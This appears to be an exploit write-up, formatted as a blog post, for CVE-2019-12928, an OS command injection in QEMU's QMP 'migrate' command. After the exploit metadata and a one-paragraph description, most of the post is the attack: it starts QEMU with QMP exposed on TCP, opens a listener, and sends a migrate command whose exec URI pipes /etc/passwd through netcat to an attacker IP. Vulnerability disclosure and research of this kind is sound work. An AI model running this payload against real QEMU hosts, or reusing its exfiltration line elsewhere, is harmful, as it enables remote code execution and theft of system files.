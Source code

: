 ```yaml
---
layout: post
title: "[CVE-2019-12928] QEMU Machine Protocol Migrate Command Execution"
comments: true
description: "QEMU Machine Protocol Migrate Command Execution"
keywords: "qemu, qmp, command execution"
---
```


Exploit Title: QEMU Machine Protocol Migrate Command Execution<br>
Date: 2019-06-05<br>
Exploit Author: Fakhri Zulkifli (@d0lph1n98)<br>
Vendor Homepage: https://www.qemu.org/<br>
Software Link: https://www.qemu.org/download/<br>
Version: 4.0.0 and earlier<br>
Tested on: 4.0.0<br>
CVE: CVE-2019-12928<br>

The QMP `migrate` command in QEMU version 4.0.0 and earlier is vulnerable to OS command injection, which allows the remote attacker to achieve code execution, denial of service, or information disclosure by sending a crafted QMP command to the listening server.

1st, execute the QEMU with `-qmp tcp:<ip_address>:1234,server,nowait`<br>
2nd, open another console and setup a listener to port 9999<br>
3rd, connect to the target and enter the following commands:<br>

```
{ "execute": "qmp_capabilities" }
{"return": {}}
{ "execute": "migrate", "arguments": { "uri": "exec:cat /etc/passwd | nc <attacker_ip> 9999" } }
{"return": {}}
```